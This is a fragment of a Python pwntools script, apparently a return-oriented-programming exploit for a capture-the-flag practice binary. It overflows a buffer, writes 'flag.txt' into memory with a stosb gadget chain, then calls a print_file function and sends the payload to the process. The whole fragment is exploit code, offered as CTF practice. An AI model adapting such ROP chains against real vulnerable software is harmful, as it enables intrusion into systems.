 ```Python
	returnPayload += stosb_gaget
	return returnPayload



def write_string(destination, string):
	dest = destination
	returnPayload = b""
	global rdi_set 
	rdi_set= False
	for i in range(len(string)):
		returnPayload += write_byte(dest, string[i])
		dest += 1
	
	return returnPayload

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
            # print(binascii.hexlify(payload[i:i+8]))

io = process(target)

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += write_string(write_loc, b"flag.txt")

# This is the vaddr of system
# First return to the location of the pop rdi
payload += pop_rdi(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))
print("Pop RBX takes up: " + str(pop_rbx_size))
input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)

input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))
sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```
